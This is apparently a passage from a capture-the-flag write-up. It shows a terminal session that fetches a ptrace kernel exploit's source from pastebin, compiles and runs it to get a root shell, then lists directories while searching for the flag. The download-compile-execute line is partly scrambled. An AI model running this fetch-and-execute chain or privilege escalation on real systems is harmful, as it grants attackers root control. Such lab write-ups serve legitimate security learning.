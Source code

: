 ```bash
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--11:06:22--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

11:06:22 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6249
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

I looked around and found the flag in the `/var/mail` directory.

```bash
$  ls
bin
boot
dev
etc
home
initrd
lib
lost+found
misc
mnt
opt
proc
root
sbin
tmp
usr
var

$  cd var
$  ls
arpwatch
cache
db
ftp
lib
local
lock
log
lost+found
mail
nis
opt
preserve
run
spool
tmp
tux
www
yp
```